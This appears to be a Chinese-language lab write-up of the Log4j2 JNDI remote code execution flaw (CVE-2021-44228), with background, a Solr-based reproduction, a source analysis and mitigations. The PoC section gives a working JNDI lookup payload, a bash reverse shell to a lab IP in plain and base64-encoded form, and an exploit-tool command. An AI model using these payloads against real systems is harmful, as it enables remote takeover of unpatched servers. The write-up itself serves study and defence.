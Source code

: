 # CVE-2021-44228 Log4j2 RCE

## Description

Apache Log4j2 是一款优秀的 Java 日志框架。2021 年 11 月 24 日，阿里云安全团队向 Apache 官方报告了 Apache Log4j2 远程代码执行漏洞。由于 Apache Log4j2 某些功能存在递归解析功能，攻击者可直接构造恶意请求，触发远程代码执行漏洞。漏洞利用无需特殊配置，经阿里云安全团队验证，Apache Struts2、Apache Solr、Apache Druid、Apache Flink 等均受影响。阿里云应急响应中心提醒 Apache Log4j2 用户尽快采取安全措施阻止漏洞攻击。

vulhub: [Apache Log4j2 lookup JNDI 注入漏洞（CVE-2021-44228）](https://github.com/vulhub/vulhub/blob/master/log4j/CVE-2021-44228/README.zh-cn.md)

### 影响版本

Apache Log4j 2.x <= 2.14.1

## 扩展知识

### JNDI

JNDI (Java Naming and Directory Interface) 是一组应用程序接口，它为开发人员查找和访问各种资源提供了统一的通用接口，可以用来定位用户、网络、机器、对象和服务等各种资源。比如可以利用 JNDI 在局域网上定位一台打印机，也可以用 JNDI 来定位数据库服务或一个远程 Java 对象。JNDI 底层支持 RMI 远程对象，RMI 注册的服务可以通过 JNDI 接口来访问和调用。

​JNDI 是应用程序设计的 Api，JNDI 可以根据名字动态加载数据，支持的服务主要有以下几种：DNS、LDAP、 CORBA 对象服务、RMI 等等。

其应用场景比如：动态加载数据库配置文件，从而保持数据库代码不变动等。

## Explanation of exploit; PoC

### 验证是否存在漏洞

1. 靶场运行后，访问 `http://your-ip:8983` ，如果页面显示 `Solr Admin`，则说明部署成功。
2. 先通过 [Dnslog](http://dnslog.cn/) 平台获取一个子域名 `ie2p24.dnslog.cn`
3. 访问靶场任意页面并通过 BurpSuite 抓包，将请求包发送到 Repeater。
4. 修改请求包中的 URL 为 `/solr/admin/cores?action=${jndi:ldap://ie2p24.dnslog.cn}` ，并发送请求。
   ![](images/cve-2021-44228-8.png)
5. 访问 [Dnslog](http://dnslog.cn/) 平台，可以看到已经收到了请求，说明存在漏洞。
   ![](images/cve-2021-44228-9.png)

### 利用漏洞 RCE

1. 使用 [JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar](https://github.com/welk1n/JNDI-Injection-Exploit/releases) 进行漏洞利用
2. 反弹 Shell 指令 `bash -i >& /dev/tcp/192.168.10.20/4444 0>&1`，其中 `192.168.10.20` 为 Kali 的 IP 地址，`4444` 为 Kali 的监听端口。
3. 为提高命令执行有效负载 Runtime.getRuntime().exec() 的成功率，将此条反弹 Shell 指令进行 Java Runtime Bash 编码，参考 [Java Runtime Bash Encoding](https://x.hacking8.com/java-runtime.html)
4. 编码后的反弹 Shell 指令为 `bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEwLjIwLzQ0NDQgMD4mMQ==}|{base64,-d}|{bash,-i}`
5. 将编码后的反弹 Shell 指令作为参数传入 JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar，执行命令 `java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEwLjIwLzQ0NDQgMD4mMQ==}|{base64,-d}|{bash,-i}" -A 192.168.10.20`，其中 `-C` 为命令参数，`-A` 为 Kali IP 地址。
   ![](images/cve-2021-44228-10.png)
6. 同时在 Kali 上监听 `4444` 端口。
   ![](images/cve-2021-44228-11.png)
7. 访问靶场任意页面并通过 BurpSuite 抓包，将请求包发送到 Repeater，修改请求包中的 URL 为 `/solr/admin/cores?action=${jndi:rmi://192.168.10.20:1099/aq9oex}` ，并发送请求。其中 `rmi://192.168.10.20:1099/aq9oex` 为 JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar 生成的 Payload。
   ![](images/cve-2021-44228-12.png)
8. 回到 Kali，可以看到已经收到了反弹 Shell 请求，说明利用成功。
   ![](images/cve-2021-44228-13.png)

### 漏洞分析

漏洞触发点在 Logger 的 `debug、info、warn、error、fatal` 方法

![](images/cve-2021-44228-1.png)

这些方法都会调用 `logIfEnabled` 方法

![](images/cve-2021-44228-2.png)

从 `logIfEnabled` 层层跟入，到达 `MessagePatternConverter` 类的 `format` 方法，在这个方法内部，会先判断 `this.config != null && !this.noLookups` 的值是否为真，其中 `this.noLookups` 的值来自于 `FORMAT_MESSAGES_PATTERN_DISABLE_LOOKUPS`，`FORMAT_MESSAGES_PATTERN_DISABLE_LOOKUPS` 的值又来自于 JVM 参数 `log4j2.formatMsgNoLookups` 的值，相关代码如下

```java
this.noLookups = Constants.FORMAT_MESSAGES_PATTERN_DISABLE_LOOKUPS || noLookupsIdx >= 0;
···
public static final boolean FORMAT_MESSAGES_PATTERN_DISABLE_LOOKUPS = PropertiesUtil.getProperties().getBooleanProperty("log4j2.formatMsgNoLookups", false);
```

所以只要 JVM 参数中 `log4j2.formatMsgNoLookups==True`，漏洞利用就无法成功。

之后的代码会判断要打印的日志字符串 `workingBuilder` 中是否包含连续的两个字符 `$` 和 `{`。如果存在，就将 `${xxx}` 这段字符提取出来，传入 `StrSubstitutor` 类的 `replace` 方法

![](images/cve-2021-44228-3.png)

最后传入 `substitute` 方法中。`substitute` 会调用 `resolveVariable` 方法，

![](images/cve-2021-44228-4.png)

`resolveVariable` 方法中会进行 `resolver.lookup` 查询，

![](images/cve-2021-44228-5.png)

![](images/cve-2021-44228-6.png)

最后会进入 `JndiLookup.lookup` 方法进行 jndi 查询，查询的参数就是 `ldap://127.0.0.1:1389/a`

![](images/cve-2021-44228-7.png)

## Mitigation

### 通用修补建议

- 升级 Apache Log4j2 所有相关应用到最新的 log4j-2.15.0-rc1 版本，地址 https://github.com/apache/logging-log4j2/releases/tag/log4j-2.15.0-rc1
- 升级已知受影响的应用及组件，如 srping-boot-strater-log4j2/Apache Solr/Apache Flink/Apache Druid。

### 临时修补建议

- 设置 JVM 启动参数 `-Dlog4j2.formatMsgNoLookups=true`
- 拦截请求中的 `${` 字符串
- 限制不必要的应用访问外网

## References

- [Apache Log4j 远程代码执行漏洞源码级分析](https://www.cnblogs.com/510602159-Yano/p/15689497.html)
- [CVE-2021-44228——Log4j2-RCE 漏洞复现](https://www.cnblogs.com/loongten/p/15822195.html)
- [java 命令执行 payloads 编码工具](https://x.hacking8.com/java-runtime.html)
- [JNDI-Injection-Exploit](https://github.com/welk1n/JNDI-Injection-Exploit/blob/master/README-CN.md)
- [marshalsec](https://github.com/mbechler/marshalsec)
